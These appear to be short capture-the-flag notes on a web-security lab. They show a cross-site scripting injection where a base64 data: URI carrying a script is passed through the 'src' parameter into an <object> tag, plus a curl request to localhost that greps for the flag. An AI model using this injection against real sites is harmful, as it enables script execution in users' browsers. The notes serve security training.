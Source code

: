 GET /index.php?page=media&src=data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



the tag object hold as data a url to the nsa_prism jpg
and it is passed to it through the variable src

data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
<object data=""> </object>

PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



curl "http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" | grep "The flag is :"


resource : https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs
